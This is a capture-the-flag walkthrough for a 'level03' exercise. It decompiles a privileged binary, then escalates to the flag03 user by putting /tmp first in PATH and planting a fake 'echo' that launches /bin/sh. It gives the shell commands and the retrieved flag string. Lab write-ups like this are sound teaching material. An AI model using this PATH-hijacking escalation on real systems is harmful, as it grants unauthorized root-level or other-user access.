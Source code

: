 # level03

It is possible to run almost any executable with elevated privileges in this exercise, I chose sh as it permits pretty much anything

1. Decompile binary, see that it runs as flag03
2. Exploit env vars usage by changing $PATH
3. Create an exploit binary to be executed by the original binary
4. Execute original binary and retrieve flag

in kali: scp executable from target machine

in kali:

```shell
/opt/retdec/bin/retdec-decompiler.py level03
```

OPTION 1:

 ```shell
 PATH=/tmp:$PATH
 ```

 ```shell
 echo /bin/sh > /tmp/echo
 ```

 ```shell
 chmod +x /tmp/echo
 ```

 ```shell
 ./level03
 ```

 Optional (proof that we operate as flag03):

 ```shell
 whoami
 ```

 ```shell
 getflag
 ```

 gives: qi0maab88jeaj46qoumi7maus

OPTION 2:

 ```shell
 cd /tmp
 ```

 ```shell
 vim main.c
 ```

 Copy-Paste exploit.c

 ```shell
 gcc main.c -o echo
 ```

 ```shell
 ~/level03
 ```

 Optional (proof that we operate as flag03):

 ```shell
 whoami
 ```

 ```shell
 getflag
 ```

 gives flag:

 ```shell
 qi0maab88jeaj46qoumi7maus
 ```
